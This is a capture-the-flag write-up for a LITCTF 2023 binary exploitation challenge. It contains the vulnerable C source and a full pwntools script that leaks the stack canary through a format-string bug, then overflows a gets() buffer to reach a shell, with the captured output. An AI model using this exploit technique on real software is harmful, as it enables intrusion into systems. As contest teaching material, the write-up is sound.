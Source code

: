 # Pwn - My Pet Canary's Birthday Pie (LITCTF 2023)

## Problem

We are given the following source file `s.c` (and its binary):

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
	system("/bin/sh");
}

int vuln() {
	char buf[32];
	gets(buf);
	printf(buf);
	fflush(stdout);
	gets(buf);
}

int main() {
	setbuf(stdout, 0x0);
	setbuf(stderr, 0x0);
	vuln();
}
```

Binary properties:

```sh
└─$ pwn checksec s
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

There are 2 vulnerabilities to take note. First, `printf(buf)` is vulnerable to a format string attack. Furthermore, `gets(buf)` is vulnerable to buffer overflow. Therefore, the goal is to:
1. Use format string vulnerability of `printf(buf)` to obtain stack canary
2. Perform buffer overflow (buffer is 32 bytes) via 2nd `gets(buf)` to overwrite return address to the `win()` function. When overwriting, we must make sure we do not modify the value of the stack canary found in step 1.

Relevant addresses for `win()` and `vuln()` are as follows:

![win()](./images/mypetcanarysbirthdaypie1.png)

![vuln()](./images/mypetcanarysbirthdaypie2.png)

A solve script to do this is as follows:

```python
from pwn import *
import binascii
context.update(arch="amd64",os="linux")
context.terminal = ['tmux', 'splitw', '-h']
exe = ELF('./s')
#r = process('./s')
#r = gdb.debug([exe.path], '''
#    b main
#    continue
#    b vuln
#''')
r = remote('litctf.org', 31791)

# Canary at %11$p since it looks highly random
r.sendline(b'%09$p %10$p %11$p %12$p %13$p')
data = r.recv(2048).decode('utf-8').split(' ')
print(data)
before_canary = bytes.fromhex(data[1][2:])
canary = bytes.fromhex(data[2][2:]) 
after_canary = bytes.fromhex(data[3][2:])
ret_addr = bytes.fromhex(data[4][2:])
mod_ret_addr = bytearray(ret_addr)
# Win is at 1e9, ret_addr originally at 2ae
mod_ret_addr[-1] = 0xe9
mod_ret_addr[-2] = (mod_ret_addr[-2] & 0xf0) | 0x1
ret_gad_addr = bytearray(ret_addr)
ret_gad_addr[-1] = 0xff
ret_gad_addr[-2] = (ret_gad_addr[-2] & 0xf0) | 0x1
print([before_canary, canary, after_canary, binascii.hexlify(ret_addr), binascii.hexlify(mod_ret_addr), binascii.hexlify(ret_gad_addr)])
# Buffer size is 32
# --------------------> Overwrite canary --------------------> Overwrite RA to win ------>
# [32 A's][8 bytes][Canary (looks random, 8 bytes)][8 bytes][RA, 8 bytes]

print('Canary:', [canary])
r.send(b'A' * 32)
r.send(before_canary[::-1] + b'\x00\x00')
r.send(canary[::-1])
r.send(after_canary[::-1] + b'\x00\x00')
# extra "ret" gadget is needed to "clean stack up"
r.send(ret_gad_addr[::-1] + b'\x00\x00')
r.sendline(mod_ret_addr[::-1])
r.sendline(b'cat flag.txt')
r.interactive()
r.close()
```

Sample solve script output:

```sh
└─$ python3 mypetcanarybirthdaypiesolve.py
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to litctf.org on port 31791: Done
['0x7024333125', '0x7ffddce67aa0', '0x68c8db2745438d00', '0x7ffddce67aa0', '0x558938dd12ae']
[b'\x7f\xfd\xdc\xe6z\xa0', b"h\xc8\xdb'EC\x8d\x00", b'\x7f\xfd\xdc\xe6z\xa0', b'558938dd12ae', b'558938dd11e9', b'558938dd11ff']
Canary: [b"h\xc8\xdb'EC\x8d\x00"]
[*] Switching to interactive mode
$ ls
flag.txt
run.sh
s
s.c
$ cat flag.txt
LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}
```

You might have noticed that a return gadget (`0xc3`) placed as the return address instead of the address of the win function. This is supposedly used to clean up the stack after buffer overflow, and solved the following error if we were to directly invoke `system("/bin/sh")`:

```sh
__libc_system (line=... "/bin/sh") at ../sysdeps/posix/system.c:179
179 ../sysdeps/posix/system.c: No such file or directory.
```

## Flag

LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}

